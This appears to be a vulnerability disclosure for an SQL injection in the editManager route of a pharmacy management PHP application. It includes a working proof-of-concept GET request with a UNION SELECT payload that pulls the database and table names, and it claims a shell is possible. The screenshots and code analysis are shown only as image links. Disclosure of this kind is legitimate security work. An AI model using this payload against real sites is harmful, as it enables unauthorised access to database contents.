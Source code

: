 ## editManager

**Description of the vulnerability**
pharmacy_Management_System latest version has SQL injection, which can get information about the database and even GetShell via SQL injection

**Vulnerability recurrence**

We need to set up this PMS website locally

Let's open the  /Index.php?id=allManager  route

![image-20240723105418419](E:/代码审计-cve/pharmacy_Management_System SQL injection vulnerability.assets/image-20240723105418419.png)

POC

```
GET /index.php?action=editManager&id=8}'+union+select+1,database(),(SELECT+GROUP_CONCAT(table_name)+FROM+information_schema.tables+WHERE+table_schema=database()),4,5,6,7,8+order+by+id+limit+0,1--+ HTTP/1.1
```

![image-20240723125248656](E:/代码审计-cve/pharmacy_Management_System SQL injection vulnerability.assets/image-20240723125248656.png)

Result：We can get the database name, table name, etc

![image-20240723125309098](E:/代码审计-cve/pharmacy_Management_System SQL injection vulnerability.assets/image-20240723125309098.png)

![image-20240723134203341](E:/代码审计-cve/pharmacy_Management_System SQL injection vulnerability.assets/image-20240723134203341.png)

Analysis code

![image-20240723130427914](E:/代码审计-cve/pharmacy_Management_System SQL injection vulnerability.assets/image-20240723130427914.png)

